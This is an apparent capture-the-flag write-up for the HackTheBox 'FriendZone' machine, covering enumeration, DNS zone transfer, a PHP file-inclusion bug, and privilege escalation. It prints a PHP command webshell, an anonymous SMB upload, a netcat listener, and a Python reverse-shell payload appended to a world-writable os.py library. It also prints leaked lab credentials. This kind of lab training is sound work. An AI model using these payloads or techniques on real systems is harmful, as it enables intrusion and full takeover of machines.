






# FriendZone: 10.10.10.123

## Hints

- This machine requires a lot of enumeration - if something doesn't seem to be possible, move on!
- Find some hostnames then try a zone transfer to find some more hostnames
- Look for an LFI and upload files via a file sharing service to get a foothold
- Lateral movement to a user is about finding reused creds
- Privesc to root involves some Python library manipulation

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

There were lots of ports open on this machine. A machine like this made me create a more flexible, faster enumeration strategy - looking through ports and amalgamating information.

## 21: Recon

Started by checking for anonymous access on FTP.

```none
└─$ ftp 10.10.10.123       
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:thomas): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

I have seen the vsftpd software in a bunch of different CTFs and know that version 3.0.3 is not vulnerable. Moving on, while remembering that if we get some creds, we could check this service.

## 22: Recon

Looks like an Ubuntu Bionic (18.04) system based on the SSH banner. Doesn't look like anything else going on here. If we get creds, we could come back and try to get remote access.

## 80: Recon

Port 80 has a basic website.


There is a hostname leak of `friendzoneportal.red` and an email leak of `info@friendzoneportal.red`. Added this hostname to my `/etc/hosts` file, but the hostname goes to the same website. Had a look at the `robots.txt` file and got trolled.



Ran a `gobuster` on the website and got back `wordpress`, which was also a rabbit hole - as it returned an empty directory listing.



Since there was not much else to do on this port, moved on to port 443.

## 443: Recon

The website on port 443 did not display a page and returned a 404. 



When viewing the SSL cert, got a hostname leak of `friendzone.red` and an email of `haha@friendzone.red`. Once again, added these to my `/etc/hosts/` file. 

When visiting `https://friendzoneportal.red/` (the hostname from port 80), got a meme.


When visiting `https://friendzone.red/` (the hostname from the SSL cert), got another meme.



But, this time there is some useful information in the webpage source.


Browsing to the location in the hint (`https://friendzone.red/js/js/`) we get an actual hint... for once on this machine!


Having a look at the source, there is an interesting comment:

```none
<p>Testing some functions !</p><p>I'am trying not to break things !</p>MmhHYklaMXVieDE2MzI2MDc0NDNGNHpFNmRLYUZz
<!-- dont stare too much , you will be smashed ! , it's all about times and zones ! -->
```

Ran another `gobuster` on port 443, but didn't get anything useful in the results. Tried decoding the message in the `/js` file, but couldn't find how it was encoded.

## 139 and 445: Recon

Moved on to SMB that was running on ports 139 and 445. Started by running a `nmap` scan with the `smb-enum-*` scripts to get a high-level overview of what was running. Also ran the usual `enum4linux` tool. Then run a new tool that I found the other day, a Python project called `enum4linux-ng` - which seems like an excellent replacement.

There are a couple of shares available when connecting using no creds.

```none
└─$ smbclient --no-pass -L //10.10.10.123                

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        Files           Disk      FriendZone Samba Server Files /etc/Files
        general         Disk      FriendZone Samba Server Files
        Development     Disk      FriendZone Samba Server Files
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Here is a summary of the shares:

- `Files`: Access denied
- `general`: One file named `creds.txt`
- `Development: Empty directory

The contents of `creds.txt` were:

```none
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Some of the comments on the share are interesting, as they point to file system locations. Might be useful later.

## 53: Recon

We have a couple of hostnames, and port 53 is open. It makes sense to try some zone transfers to try to discover some more hostnames.

```none
└─$ dig axfr friendzoneportal.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Sun Sep 26 11:22:13 NZDT 2021
;; XFR size: 9 records (messages 1, bytes 309)
```

```none
└─$ dig axfr friendzone.red @10.10.10.123

; <<>> DiG 9.16.15-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 44 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Sun Sep 26 11:22:07 NZDT 2021
;; XFR size: 8 records (messages 1, bytes 289)
```

Like the rest of this machine, there was a lot of information. In this case a lot of additional hostnames. I added them all to my `/etc/hosts` file.

```none
friendzoneportal.red friendzone.red admin.friendzoneportal.red files.friendzoneportal.red imports.friendzoneportal.red vpn.friendzoneportal.red administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red
```

Thought I would make a table to try to keep track of what each hostname did when accessing it via HTTP or HTTPS.

| Hostname | Description |
| ----------- | ----------- |
| http://admin.friendzoneportal.red | Same site as 10.10.10.123 |
| http://files.friendzoneportal.red | Same site as 10.10.10.123 |
| http://imports.friendzoneportal.red | Same site as 10.10.10.123 |
| http://vpn.friendzoneportal.red | Same site as 10.10.10.123 |
| http://administrator1.friendzone.red | Same site as 10.10.10.123 |
| http://hr.friendzone.red | Same site as 10.10.10.123 |
| http://uploads.friendzone.red | Same site as 10.10.10.123 |
| https://admin.friendzoneportal.red | Admin panel |
| https://files.friendzoneportal.red | Not Found |
| https://imports.friendzoneportal.red | Not Found |
| https://vpn.friendzoneportal.red | Not Found |
| https://administrator1.friendzone.red | Admin panel |
| https://hr.friendzone.red | Not Found |
| https://uploads.friendzone.red | File upload |


Out of all the new hostnames, found three of interest that had a new page or app. The `admin.friendzoneportal.red` hostname directs to a PHP admin login.



I used the creds from samba, but got an error that this was not the actual admin portal, and there was another one!


The file upload feature seems to upload files to the website, but I am not sure where the files are uploaded and if this uploads files!



The other admin portal was via the `adminsitrator1.friendzone.red` hostname.


Again, used the creds from samba and was able to log in. There was a message displayed after the valid login:

```none
Login Done ! visit /dashboard.php
```


This dashboard seems interesting. The page states that it was designed by a "beginner php developer" - which indicates that it may be exploitable.

## Getting a Foothold via LFI

The `dashboard.php` page has some interesting information in the page contents... an example of the parameters needed to display an image.

```none
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp
```

There is a decent hint in the `pagename` parameter. From the name, it seems like the purpose is to include a file (page) into the web app. The default is `timestamp`. I requested the `timestamp.php` file and got a 200 OK response. So it exists on the server. The parameter on the `dashboard.php` must append a `.php` extension to whatever is supplied, which is important information. We cannot request other files, such as `/etc/passwd`, as the code would append a `.php` extension and it would not be found.

Started by trying to view the web app source code using the PHP filter trick.

```none
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login
```

The page included a base64 string of the `login.php` page, which we can copy out and decode.

```none
echo -n "PD9waHAKCgokdXNlcm5hbWUgPSAkX1BPU1RbInVzZXJuYW1lIl07CiRwYXNzd29yZCA9ICRfUE9TVFsicGFzc3dvcmQiXTsKCi8vZWNobyAkdXNlcm5hbWUgPT09ICJhZG1pbiI7Ci8vZWNobyBzdHJjbXAoJHVzZXJuYW1lLCJhZG1pbiIpOwoKaWYgKCR1c2VybmFtZT09PSJhZG1pbiIgYW5kICRwYXNzd29yZD09PSJXT1JLV09SS0hoYWxsZWx1amFoQCMiKXsKCnNldGNvb2tpZSgiRnJpZW5kWm9uZUF1dGgiLCAiZTc3NDlkMGY0YjRkYTVkMDNlNmU5MTk2ZmQxZDE4ZjEiLCB0aW1lKCkgKyAoODY0MDAgKiAzMCkpOyAvLyA4NjQwMCA9IDEgZGF5CgplY2hvICJMb2dpbiBEb25lICEgdmlzaXQgL2Rhc2hib2FyZC5waHAiOwp9ZWxzZXsKZWNobyAiV3JvbmcgISI7Cn0KCgoKPz4K" | base64 -d
```

This is interesting, but we are very limited, as only PHP files can be used with this method. After a break and some pondering, I thought the way forward was to upload a PHP file to the server and get this LFI to execute it. We had one set of creds that we could test on FTP or SMB to try upload files. We need a couple of things for this to work:

- Creds to log in to FTP or SSH
- Knowledge of where the file will be uploaded
- A PHP file with code we want to execute

Started by creating a flexible PHP file to accept a parameter for code execution.

```none
echo '<?php system($_REQUEST["cmd"]) ?>' > cmd.php
```

I tried the creds on FTP, but they didn't work. Then started looking at SMB. After looking at the `nmap` scan results, I realized I could do an upload without creds.

```none
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
```

Uploading to this directory will put it in `/etc/Development/cmd.php`. We can tell this from the comments in the other SMB shares and the path in the `nmap` output.

```none
└─$ smbclient --no-pass //10.10.10.123/Development    
Try "help" to get a list of possible commands.
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.3 kb/s) (average 0.3 kb/s)
````

From here, can add the path of the PHP file to the LFI we already have.

```none
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/cmd?cmd=id
```

At this point, intercepted the request in Burp and used the usual Bash reverse shell.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.123] 52206
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 04:12:36 up  3:52,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Success! A shell as `www-data`.

## Privesc: `www-data` to `friend`

Had a poke around the system manually. So far, this box seemed like a logical series of puzzles, which I find easier to solve with manual enumeration. I noticed that there was a MySQL configuration file in the `www` directory.

```none
www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

Looking at the users on the system with a shell, there is a user named `friend`. This correlates to the `db_user` in the MySQL file.

```none
www-data@FriendZone:/var/www$ cat /etc/passwd | grep -v nologin
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash
```

Seemed likely that this could be the user password. So tried using SSH to log in.

```none
└─$ ssh friend@10.10.10.123
friend@10.10.10.123's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ id
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
friend@FriendZone:~$ wc -c user.txt 
33 user.txt
```

Success! The user flag.

## Privesc: `friend` to `root`

Started running linpeas in the background for this privesc. The first interesting thing I found was that `friend` was in the `adm` group.

```none
User & Groups: uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

Looked for files with `adm` group ownership, but didn't find anything interesting. After going through more of the linpeas output, found that the `os.pyc` file was owned and writable as the `friend` user.

```none
friend@FriendZone:/usr/lib/python2.7$ ls -lisa | grep os.py
282643  28 -rwxrwxrwx  1 root   root    25910 Jan 15  2019 os.py
262202  28 -rw-rw-r--  1 friend friend  25583 Jan 15  2019 os.pyc
```

After looking at the `os` files, it was evident that the `os.py` file was writeable by anyone - which contrasts to most of the other Python library files which were only writeable by `root`. With the ability to modify this file, we still need to find a Python script that `root` was running. I rechecked for cron entries and didn't find anything. Then tried using pspy on the system.

```none
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

After getting the latest pspy version, uploaded it to the target server, and gave it execution permissions.

```none
chmod u+x pspy64
./pspy64
```

Got some interesting results after waiting about 5 minutes.

```none
2021/09/29 22:36:01 CMD: UID=0    PID=2964   | /bin/sh -c /opt/server_admin/reporter.py 
2021/09/29 22:36:01 CMD: UID=0    PID=2963   | /bin/sh -c /opt/server_admin/reporter.py 
2021/09/29 22:36:01 CMD: UID=0    PID=2962   | /usr/sbin/CRON -f 
2021/09/29 22:38:01 CMD: UID=0    PID=2967   | /bin/sh -c /opt/server_admin/reporter.py 
2021/09/29 22:38:01 CMD: UID=0    PID=2966   | /bin/sh -c /opt/server_admin/reporter.py 
2021/09/29 22:38:01 CMD: UID=0    PID=2965   | /usr/sbin/CRON -f
```

The `/opt/server_admin/reporter.py` script does an `import os` statement which uses the file that we can edit. We can see it is run with `UID=0` or `root`. Coincidence?!

```none
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

So what we want to do is edit the `os.py` file so that it has some malicious code. Then wait for the `reporter.py` to be executed, which is every 2 minutes.

I did a simple hacky solution and added a reverse shell to the end of the `os.py` script.

```none
import sys,socket,os,pty
s=socket.socket()
s.connect(("10.10.14.2,9001))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

Instead of waiting 2 minutes to check my syntax, I ran the script as the `friend` user to check it worked.

```none
python /opt/server_admin/reporter.py 
```

This gave a shell back to my netcat listener as the `friend` user. I canceled that shell, and started another netcat listener, and waiting for a couple of minutes. 

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.123] 59146
# id
id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Quick enumeration is hard... notes and tool logs are the best when trying to move fast

## Useful Resources

- [HackTheBox - FriendZone by ippsec](https://www.youtube.com/watch?v=Zf8p49IzEEA)
- [HTB: FriendZone by 0xdf](https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html)
